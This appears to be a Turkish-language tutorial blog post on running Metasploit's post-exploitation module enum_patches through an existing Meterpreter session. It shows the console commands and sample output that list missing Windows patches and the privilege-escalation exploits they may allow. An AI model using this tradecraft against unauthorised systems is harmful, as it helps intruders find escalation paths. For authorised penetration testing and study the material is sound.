 ```yaml
---
draft: false
title:  'MSF İçinde Windows Güncelleme Keşfi'
date: '2017-05-16T13:01:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description:  'Metasploit Framework içerisinden bir Windows işletim sistemine Meterpreter shell açtığınızda, işletim sisteminin hangi güncellemeleri ve yamaları yaptığını, hangilerini yapmadığını keşfetmek isteyebilirsiniz.' 
url:  /tr/msf-icinde-windows-guncelleme-kesfi/
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit Framework içerisinden bir Windows işletim sistemine Meterpreter shell açtığınızda, işletim sisteminin hangi güncellemeleri ve yamaları yaptığını, hangilerini yapmadığını keşfetmek isteyebilirsiniz.



Bunun için kullanılan `post/windows/gather/enum_patches` modülünün kullanımına ait bir örneği aşağıda bulabilirsiniz. Modül, isminden de anlaşılacağı gibi bir **post exploitation** modülüdür ve öncelikle hedef bilgisayarda bir `meterpreter` açık olmalıdır.



Aşağıdaki çıktıda, `use` komutu ile modül yüklenmiş ve seçenekleri görüntülenmiştir.


```bash
msf exploit(handler) > use post/windows/gather/enum_patches
msf post(enum_patches) > show options

Module options (post/windows/gather/enum_patches):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   KB         KB2871997, KB2928120  yes       A comma separated list of KB patches to search for
   **MSFLOCALS  true                  yes       Search for **missing patchs for **which there is a MSF local module
   SESSION                          yes       The session to run this module on.
```



Modül hakkında detaylı bilgileri `show advanced` komutuyla inceleyebilirsiniz.


```bash
msf post(enum_patches) > show advanced

Module advanced options (post/windows/gather/enum_patches):

   Name           : VERBOSE
   Current Setting: true
   Description    : Enable detailed status messages

   Name           : WORKSPACE
   Current Setting: 
   Description    : Specify the workspace for **this module
```



Bir `exploit` kullanarak Windows işletim sistemin Meterpreter shell açtıktan sonra oturumu arka plana gönderin ve `use` komutuyla `enum_patches` modülünü yükleyin. Aşağıdaki `show options` komutundaki çıktıda bulunan `SESSION` değişkeni, arka plana gönderdiğimiz meterpreter shell in oturum numarası olmalıdır. Arka plandaki oturumları `sessions -l` komutu ile görebilirsiniz. Gerekli kontrolleri yaptıktan sonra `run` komutunu verdiğinizde Windows bilgisayarın hangi güncellemeleri yapıp yapmadığını görebilirsiniz.


```bash
msf post(enum_patches) > show options

Module options (post/windows/gather/enum_patches):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   KB         KB2871997, KB2928120  yes       A comma separated list of KB patches to search for
   **MSFLOCALS  true                  yes       Search for **missing patchs for **which there is a MSF local module
   SESSION    1                     yes       The session to run this module on.

msf post(enum_patches) > run

> KB2871997 applied
**[**+] KB2928120 is missing
**[**+] KB977165 - Possibly vulnerable to MS10-015 kitrap0d **if **Windows 2K SP4 - Windows 7 (x86)
> KB2305420 applied
**[**+] KB2592799 - Possibly vulnerable to MS11-080 afdjoinleaf **if **XP SP2/SP3 Win 2k3 SP2
**[**+] KB2778930 - Possibly vulnerable to MS13-005 hwnd_broadcast, elevates from Low to Medium integrity
**[**+] KB2850851 - Possibly vulnerable to MS13-053 schlamperei **if **x86 Win7 SP0/SP1
**[**+] KB2870008 - Possibly vulnerable to MS13-081 track_popup_menu **if **x86 Windows 7 SP0/SP1
> Post module execution completed
```



Yukarıda görüldüğü gibi başında [+] işareti bulunan güncellemelerin sistemde yapılmadığı rapor edilmektedir.

